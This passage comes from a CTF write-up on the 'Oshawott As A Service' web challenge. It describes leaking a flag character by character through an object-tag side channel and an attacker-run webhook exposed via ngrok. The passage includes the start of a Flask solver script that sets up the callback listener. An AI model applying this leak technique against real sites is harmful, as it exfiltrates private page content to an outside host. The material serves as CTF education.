 4. Check webhook for connection, if `got connection = wrong character`, `no connection = correct character`.

![Check webhook](https://github.com/w0rmhol3/w0rmhol3-Blog/blob/main/source/_img/SherpaCTF/image%2013.png?raw=true)

5. REPEAT THE PROCESS UNTIL YOU GET THE FLAG.

Ok so my scripting skills is not good, I do this manually. But after the CTF, our buddy, mr.vicevirus had given the `script to solve` the challenge.

Note: solution script requires your setup of ngrok and is written in flask.

```python
# This solver script is used to solve the "Oshawott As A Service" challenge, using object tag leak to find the flag character by character.
# 1. If your webhook site is called, then that is not the correct flag character.
# 2. If your webhook site is not called, then that is the correct character!
# 3. Repeat the process for the next character until you find the full flag.
from flask import Flask, request
from pyngrok import ngrok
import threading
import requests
import string
import uuid

# Flask app setup
app = Flask(__name__)
callbacks = {}

@app.route('/webhook', methods=['GET'])
def webhook():
    unique_id = request.args.get('id')
    callback = request.args.get('callback')
    if unique_id and callback:
        callbacks[unique_id] = callback
        print(f"Received callback for ID: {unique_id}, callback: {callback}")
    return '', 204

def start_flask_app():
    app.run(port=5000)

# Start Flask app in a new thread
threading.Thread(target=start_flask_app).start()

```